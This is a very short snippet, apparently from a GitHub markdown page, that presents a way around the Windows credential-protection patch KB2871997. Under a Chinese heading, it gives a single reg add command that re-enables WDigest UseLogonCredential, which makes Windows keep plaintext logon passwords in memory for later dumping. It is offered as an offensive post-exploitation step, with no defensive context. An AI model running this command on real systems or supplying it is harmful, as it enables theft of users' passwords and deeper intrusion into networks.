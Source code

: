 # 大于等于WIndows2012WIn8.1(家庭版)补丁KB2871997绕过

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f
